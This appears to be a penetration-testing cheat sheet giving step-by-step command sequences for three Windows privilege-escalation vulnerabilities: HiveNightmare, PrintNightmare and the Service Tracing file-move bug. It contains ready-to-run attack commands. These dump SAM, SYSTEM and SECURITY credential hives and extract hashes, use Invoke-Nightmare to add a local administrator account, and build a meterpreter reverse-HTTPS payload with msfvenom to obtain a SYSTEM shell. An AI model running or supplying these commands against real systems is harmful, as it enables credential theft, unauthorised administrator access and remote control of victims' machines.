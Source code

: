 ## 💀 Modern Critical Vulnerabilities

### CVE-2021-36934 (HiveNightmare/SeriousSam)
```cmd
# Registry Hive Access Vulnerability
- Affected: Windows 10 (specific builds)
- Impact: ANY user can read SAM/SYSTEM/SECURITY hives
- Requirement: Shadow copies present (default on most systems)

# Detection:
icacls c:\Windows\System32\config\SAM
# Vulnerable if: BUILTIN\Users:(I)(RX)

# Exploitation:
.\HiveNightmare.exe
# Creates: SAM-DATE, SYSTEM-DATE, SECURITY-DATE files

# Hash extraction:
impacket-secretsdump -sam SAM-DATE -system SYSTEM-DATE -security SECURITY-DATE local
```

### CVE-2021-1675 (PrintNightmare)
```cmd
# Print Spooler RPC Vulnerability
- Affected: All Windows versions with Spooler service
- Impact: Remote code execution as SYSTEM
- Vector: RpcAddPrinterDriver abuse

# Detection:
ls \\localhost\pipe\spoolss    # Check if Spooler running

# PowerShell exploitation:
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

# Verification:
net user hacker    # Should show local administrator
```

### CVE-2020-0668 (Service Tracing)
```cmd
# Arbitrary File Move Vulnerability
- Affected: Windows 10 (multiple builds)
- Impact: Privileged file write leading to code execution
- Vector: Windows Service Tracing MaxFileSize manipulation

# Prerequisites:
- Third-party service binary (e.g., Mozilla Maintenance Service)
- Unprivileged startable service running as SYSTEM

# Exploitation chain:
1. Generate malicious binary: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -f exe
2. Execute exploit: CVE-2020-0668.exe source.exe "target_service_path"
3. Overwrite with clean malicious binary
4. Start service for SYSTEM shell
```
